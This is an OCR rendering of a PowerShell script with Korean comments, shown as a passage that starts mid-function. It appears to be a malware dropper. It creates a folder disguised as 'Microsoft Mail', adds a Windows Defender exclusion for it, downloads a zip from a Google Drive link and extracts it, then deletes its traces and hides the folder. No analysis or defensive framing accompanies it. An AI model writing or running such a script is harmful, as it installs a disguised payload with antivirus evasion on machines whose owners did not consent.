 ```powershell
    } catch {
        return $false
    }
}

# 기본 디렉터리 생성 함수
function Create-BaseDirectory {
    $directoryPath = "C:\Program Files\Microsoft Mail"
    
    if (!(Test-Path -Path $directoryPath)) {
        New-Item -Force -ItemType directory -Path $directoryPath
        Write-Output "[+] Base Directory Created"
    } else {
        Write-Output "[!] Base Directory Already Exists"
    }

    # 예외 경로 추가
    Add-MpPreference -ExclusionPath "C:\Program Files\Microsoft Mail"
}

# 파일 다운로드 함수
function Download-File {
    $url1 = "https://www.7-zip.org/a/7z2401-x64.exe"
    $dest1 = "C:\Program Files\Microsoft Mail\7z.exe"
    
    $url2 = "https://drive.usercontent.google.com/u/0/uc?id=1OvkcHZnQd91akAGdaQLNWU_HxjNvv9Hl&export=download"
    $dest2 = "C:\Program Files\Microsoft Mail\mail.zip"
    
    $client = New-Object System.Net.WebClient
    $client.DownloadFile($url1, $dest1)
    $client.DownloadFile($url2, $dest2)
    
    Write-Output "[+] Success Download"
}

# 압축 해제 함수
function PWUnzip {
    $install7z = "C:\Program Files\Microsoft Mail\7z.exe"
    $zipFilePath = "C:\Program Files\Microsoft Mail\mail.zip"
    $7zipPath = "C:\Program Files\7-Zip\7z.exe"
    
    # 7-Zip 설치 및 압축 해제
    Start-Process $install7z /S -Wait -PassThru
    & $7zipPath x $zipFilePath -y
    mv rc "C:\Program Files\Microsoft Mail\"
}

# 파일 숨기기 및 정리 함수
function Hide-Action {
    Remove-Item -Path "C:\Program Files\Microsoft Mail\mail.zip"
    Remove-Item -Path "C:\Program Files\Microsoft Mail\7z.exe"
    Remove-Item -Path "C:\Users\torden\Downloads\mail helper.zip"
    Remove-Item -Recurse -Path "C:\Users\torden\Downloads\mail helper"
    
    $End_Task = Get-Item "C:\Program Files\Microsoft Mail\" -Force
    $End_Task.Attributes = "Hidden"
    
    Write-Output "[+] Success Hidden_Action"
}

# 메인 실행 흐름
Create-BaseDirectory
```